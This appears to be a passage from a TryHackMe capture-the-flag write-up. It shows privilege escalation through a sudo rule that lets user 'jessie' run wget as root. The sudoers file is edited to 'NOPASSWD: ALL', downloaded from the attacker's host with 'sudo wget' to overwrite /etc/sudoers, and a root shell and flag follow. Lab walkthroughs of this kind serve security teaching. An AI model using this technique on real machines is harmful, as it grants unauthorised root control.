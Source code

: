 ```SH

#
# This file MUST be edited with the 'visudo' command as root.
#
# Please consider adding local content in /etc/sudoers.d/ instead of
# directly modifying this file.
#
# See the man page for details on how to write a sudoers file.
#
Defaults        env_reset
Defaults        mail_badpass
Defaults        secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"

# Host alias specification

# User alias specification

# Cmnd alias specification

# User privilege specification
root    ALL=(ALL:ALL) ALL

# Members of the admin group may gain root privileges
%admin ALL=(ALL) ALL

# Allow members of group sudo to execute any command
%sudo   ALL=(ALL:ALL) ALL

# See sudoers(5) for more information on "#include" directives:

#includedir /etc/sudoers.d
jessie  ALL=(root) NOPASSWD: /usr/bin/wget
```

Save The Data To a `sudoer2` file.   
Edit out the `NOPASSWD: /usr/bin/wget` Portion to `NOPASSWD: ALL` using ONLY `VISUDO`

![](2021-06-25-17-49-30.png)

And upload it back to machine

```SH
URL=http://{YOUR-IP alloted from THM}/sudoer2
LFILE=/etc/sudoers
sudo wget $URL -O $LFILE
```

```BASH
jessie@CorpOne:~$ sudo -i
root@CorpOne:~# ls -la
total 28
drwx------  4 root root 4096 oct 26  2019 .
drwxr-xr-x 23 root root 4096 oct 26  2019 ..
-rw-r--r--  1 root root 3106 oct 22  2015 .bashrc
drwx------  2 root root 4096 feb 27  2019 .cache
drwxr-xr-x  2 root root 4096 oct 26  2019 .nano
-rw-r--r--  1 root root  148 aug 17  2015 .profile
-rw-r--r--  1 root root   33 oct 26  2019 root_flag.txt
root@CorpOne:~# cat root_flag.txt
b1b968b37519ad1daa6408188649263d

```